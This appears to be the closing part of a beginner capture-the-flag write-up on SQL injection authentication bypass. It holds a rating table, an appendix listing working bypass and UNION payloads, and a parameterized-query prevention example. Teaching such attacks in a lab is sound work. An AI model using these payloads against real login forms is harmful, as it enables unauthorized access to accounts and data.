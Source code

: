 ### External Help
- OWASP documentation for understanding SQL injection mechanics

---

## 📋 Challenge Rating

| Aspect | Rating (1-5) | Notes |
|--------|--------------|-------|
| Difficulty | ⭐ | Very easy, perfect for beginners |
| Fun Factor | ⭐⭐⭐ | Satisfying first SQL injection |
| Learning Value | ⭐⭐⭐⭐⭐ | Essential web security concept |
| Realism | ⭐⭐⭐⭐ | Common vulnerability type |

**Overall**: ⭐⭐⭐⭐ (4/5) - Excellent learning challenge for beginners

---

## 📚 Appendix

### Other Payloads That Work
```sql
-- Authentication bypass variations
admin'--
admin' OR '1'='1'--
admin' OR 1=1--
' OR '1'='1'--
' OR 1=1--

-- Union-based (if applicable)
admin' UNION SELECT 1,2,3--
```

### Prevention Measures
```python
# Secure code example (using parameterized queries)
cursor.execute(
    "SELECT * FROM users WHERE username = %s AND password = %s", 
    (username, password)
)
```

---

**Completion Time**: `15 minutes`
**Team Size**: `1 member`
**First Blood**: `NO` 
**Published**: `2024-01-15`

## Tags
#ctf-writeup #web #sql-injection #beginner #authentication-bypass